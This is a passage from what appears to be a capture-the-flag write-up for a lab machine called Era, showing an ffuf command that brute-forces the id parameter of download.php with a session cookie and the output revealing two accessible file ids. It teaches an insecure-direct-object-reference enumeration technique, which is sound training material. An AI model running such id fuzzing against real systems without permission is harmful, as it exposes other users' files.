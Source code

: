 ### ID Fuzzing

so let’s fuzz in id parameter use our session

![](<../.gitbook/assets/2025 08 13_17_20_01 Kali_Linux_ _VMware_Workstation.png>)

```bash
┌──(irix㉿irix)-[~/THM/era]
└─$ seq 1 50000 > ids.txt    

┌──(irix㉿irix)-[~/THM/era]
└─$ ffuf -u 'http://file.era.htb/download.php?id=FUZZ' -w ids.txt -H 'Cookie: PHPSESSID=loef1rkb4midpe60lbtnp7b9ad' -fw 3161

        /'___\  /'___\           /'___\       
       /\ \__/ /\ \__/  __  __  /\ \__/       
       \ \ ,__\\ \ ,__\/\ \/\ \ \ \ ,__\      
        \ \ \_/ \ \ \_/\ \ \_\ \ \ \ \_/      
         \ \_\   \ \_\  \ \____/  \ \_\       
          \/_/    \/_/   \/___/    \/_/       

       v2.1.0-dev
________________________________________________

 :: Method           : GET
 :: URL              : http://file.era.htb/download.php?id=FUZZ
 :: Wordlist         : FUZZ: /home/irix/THM/era/ids.txt
 :: Header           : Cookie: PHPSESSID=loef1rkb4midpe60lbtnp7b9ad
 :: Follow redirects : false
 :: Calibration      : false
 :: Timeout          : 10
 :: Threads          : 40
 :: Matcher          : Response status: 200-299,301,302,307,401,403,405,500
 :: Filter           : Response words: 3161
________________________________________________

54                      [Status: 200, Size: 6378, Words: 2552, Lines: 222, Duration: 291ms]
150                     [Status: 200, Size: 6366, Words: 2552, Lines: 222, Duration: 261ms]

```
